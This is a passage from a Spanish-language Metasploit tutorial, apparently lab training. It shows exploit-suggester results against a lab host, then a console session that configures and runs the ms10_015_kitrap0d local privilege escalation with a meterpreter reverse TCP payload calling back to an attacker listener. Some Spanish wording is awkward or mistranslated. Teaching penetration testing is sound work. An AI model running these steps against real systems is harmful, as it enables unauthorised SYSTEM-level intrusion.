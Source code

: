 ```
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

```

Teniendo estos resultados frente a nosotros, podemos elegir fácilmente uno de ellos para probar. Si el que elegimos no es válido después de todo, pase a la siguiente. No todas las comprobaciones son 100% precisas, y no todas las variables son las mismas. Vando por la lista,`bypassauc_eventvwr`falla debido a que el usuario de IIS no es parte del grupo del administrador, que es el valor predeterminado y esperado. La segunda opción,`ms10_015_kitrap0d`, hace el truco.

### **MSF - Escalación de privilegios locales**

Introducción a MSFVENOM

```
msf6 exploit(multi/handler) > search kitrap0d

Matching Modules
================

#  Name                                     Disclosure Date  Rank   Check  Description   -  ----                                     ---------------  ----   -----  -----------
   0  exploit/windows/local/ms10_015_kitrap0d  2010-01-19       great  Yes    Windows SYSTEM Escalation via KiTrap0D

msf6 exploit(multi/handler) > use 0
msf6 exploit(windows/local/ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  2                yes       The session to run this module on.

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     1338             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)

msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 1338

LPORT => 1338

msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3

SESSION => 3

msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.5:1338
```